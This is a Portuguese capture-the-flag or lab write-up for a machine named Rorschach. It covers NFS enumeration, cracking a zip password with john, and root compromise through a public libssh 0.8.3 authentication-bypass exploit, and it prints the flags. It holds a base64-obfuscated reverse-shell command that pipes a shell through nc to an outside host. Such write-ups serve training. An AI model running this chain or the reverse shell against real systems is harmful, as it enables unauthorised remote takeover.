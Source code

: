 ```yaml
---
title: Rorschach
category: EHPT
---
```


## Enumeração

### Scan inicial

- Iniciando a enumeração da máquina com nmap, encontrados os seguintes serviços em execução

```plaintext
# Nmap 7.80 scan initiated Fri Jun 19 18:27:13 2020 as: nmap -A -p22,111,2049,8140,41191,44285,45397,51707 -Pn -oA full 10.0.0.9

Nmap scan report for 10.0.0.9
Host is up (0.0012s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:bb:45:9e:3a:22:86:57:cf:04:95:ec:9e:3a:c9:83 (RSA)
|   256 3d:28:98:10:45:40:4a:82:f8:63:d7:19:38:3e:d9:17 (ECDSA)
|_  256 d6:26:94:02:47:50:6c:d6:b4:63:eb:c8:63:a6:14:ad (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36931/udp   mountd
|   100005  1,2,3      45397/tcp   mountd
|   100005  1,2,3      56071/tcp6  mountd
|   100005  1,2,3      56489/udp6  mountd
|   100021  1,3,4      42316/udp6  nlockmgr
|   100021  1,3,4      42643/tcp6  nlockmgr
|   100021  1,3,4      44285/tcp   nlockmgr
|   100021  1,3,4      49923/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
8140/tcp  open  ssh      libssh 0.8.3 (protocol 2.0)
| ssh-hostkey: 
|_  2048 95:4f:0d:77:af:d0:f4:94:81:43:3f:c0:2c:d3:a3:fe (RSA)
41191/tcp open  mountd   1-3 (RPC #100005)
44285/tcp open  nlockmgr 1-4 (RPC #100021)
45397/tcp open  mountd   1-3 (RPC #100005)
51707/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Fri Jun 19 18:27:20 2020 -- 1 IP address (1 host up) scanned in 6.62 seconds
```

### 2049/TCP - NFS

- Uma vez que foi notado um serviço de nfs na porta 2049/TCP, inciado a enumeração do mesmo através do comando showmount, que mostra que o mesmo é publicamente acessível

```plaintext
dcruz@kali:/dcruz/ehpt/rorschach/scan$ showmount -e 10.0.0.9
Export list for 10.0.0.9:
/media/nfs *
```

- Realizado o ponto de montagem do diretório e encontrados os seguintes arquivos no mesmo

```plaintext
dcruz@kali:/dcruz/ehpt/rorschach$ mkdir mount
dcruz@kali:/dcruz/ehpt/rorschach$ sudo mount -t nfs 10.0.0.9:/media/nfs /dcruz/ehpt/rorschach/mount/
dcruz@kali:/dcruz/ehpt/rorschach$ cd mount/
dcruz@kali:/dcruz/ehpt/rorschach/mount$ tree
.
├── index.html
└── secret.pdf.zip

0 directories, 2 files
dcruz@kali:/dcruz/ehpt/rorschach/mount$ ls -la
total 168
drwxr-xr-x 2 root  root   4096 Feb  4 13:07 .
drwxr-xr-x 6 dcruz dcruz  4096 Jun 19 18:38 ..
-rw-r--r-- 1 root  root  79931 Feb  4 13:07 index.html
-rw-r--r-- 1 root  root  79931 Jan 29 00:55 secret.pdf.zip
```

- Uma vez que ambos os arquivos tem a mesma quantidade de bytes, executado o file em abos e visto que são o mesmo arquivo, o que pode ser tambem comprovado com o comando sha1sum

```plaintext
dcruz@kali:/dcruz/ehpt/rorschach/mount$ file index.html 
index.html: Zip archive data, at least v?[0x333] to extract
dcruz@kali:/dcruz/ehpt/rorschach/mount$ file secret.pdf.zip 
secret.pdf.zip: Zip archive data, at least v?[0x333] to extract
dcruz@kali:/dcruz/ehpt/rorschach/mount$ cat index.html | shasum 
be678da6d06a027e2b6478cd8117c5cd8e094152  -
dcruz@kali:/dcruz/ehpt/rorschach/mount$ cat secret.pdf.zip | shasum 
be678da6d06a027e2b6478cd8117c5cd8e094152  -
dcruz@kali:/dcruz/ehpt/rorschach/mount$
```

- Copiado arquivo para pasta loot, o qual ao tentar extrair, solicitou password

```plaintext
dcruz@kali:/dcruz/ehpt/rorschach/loot$ 7z x secret.pdf.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i7-8650U CPU @ 1.90GHz (806EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 79931 bytes (79 KiB)

Extracting archive: secret.pdf.zip
--
Path = secret.pdf.zip
Type = zip
Physical Size = 79931

Enter password (will not be echoed):
```

- Utilizado zip2john e john para quebrar a senha do arquivo zip, com o dicionário rockyou.txt

```plaintext
dcruz@kali:/dcruz/ehpt/rorschach/loot$ zip2john secret.pdf.zip > zip.hash
dcruz@kali:/dcruz/ehpt/rorschach/loot$ john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
paradise!        (secret.pdf.zip/secret.pdf)
1g 0:00:00:10 DONE (2020-06-19 18:55) 0.09398g/s 37341p/s 37341c/s 37341C/s remmer..ozzie7
Use the "--show" option to display all of the cracked passwords reliably
Session completed
dcruz@kali:/dcruz/ehpt/rorschach/loot$ john zip.hash --show
secret.pdf.zip/secret.pdf:paradise!:secret.pdf:secret.pdf.zip:secret.pdf.zip

1 password hash cracked, 0 left

```

- Usando a senha **paradise!** conforme imagem acima foi possível extrair o arquivo secret.pdf, porem o mesmo continha apenas uma imagem, conforme screenshot abaixo.

![image-20200619185925236](C:\Temp\EHPT\.assets\image-20200619185925236.png)

- Analisando rapidamente as strings do arquivo, não foi encontrado nada no mesmo.

### 8140/TCP - LibSSH

- Retomando a enumeração dos serviços na maquina, identificado que na porta 8140/TCP existe um serviço SSH executando a libssh 0.8.3. Rapidamente buscando no searchsploit esta biblioteca, identificado que esta se trata de uma versão vulnerável a acesso não autorizado

```plaintext
dcruz@kali:/dcruz/ehpt/rorschach/loot$ searchsploit libssh
--------------------------------------------------------- ---------------------------------
Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
libSSH - Authentication Bypass                           | linux/remote/45638.py
LibSSH 0.7.6 / 0.8.4 - Unauthorized Access               | linux/remote/46307.py
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

## Exploração

- Verificando o segundo exploit (**46307**) identificado que este permite a execução de um comando informando como argumentos ao script o hostname, porta e comando desejado. Ao executar com os dados desejados, notado que já é possivel obter um shell como root nesta maquina :)

```plaintext
dcruz@kali:/dcruz/ehpt/rorschach/exploit$ ./46307.py 10.0.0.9 8140 id
/home/dcruz/.local/lib/python3.8/site-packages/paramiko/rsakey.py:127: CryptographyDeprecationWarning: signer and verifier have been deprecated. Please use sign and verify instead.
verifier = key.verifier(uid=0(root) gid=0(root) groups=0(root)
```

- Uma vez que temos execução remota de código como root, executados os comandos necessários para obter um shell reverso para que pudéssemos obter a flag.

```plaintext
dcruz@kali:/dcruz/ehpt/rorschach/exploit$ ./46307.py 10.0.0.9 8140 "echo -n 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI│
+JjF8bmMgMTAuMC4wLjMgNDQ0MyA+L3RtcC9mCg==' | base64 -d | bash"  
```

- Como Root, obtido flag na maquina

```plaintext
# cat .root.txt
b077bffcb1ef246f7cc77ae2a86bc684
```

- Uma vez que se tem root na maquina, obtido os demais flags existentes na máquina

```plaintext
root@debian:/# find / 2> /dev/null | grep .txt$
[....]
/home/noob/local.txt
/home/sandman/user.txt
root@debian:/# cat /home/noob/local.txt
cat /home/noob/local.txt
c7e9d46b43370b38f661b25166253d38
root@debian:/# cat /home/sandman/user.txt
cat /home/sandman/user.txt
536aec5f29a91b5ee5154b713f83c1b5
```
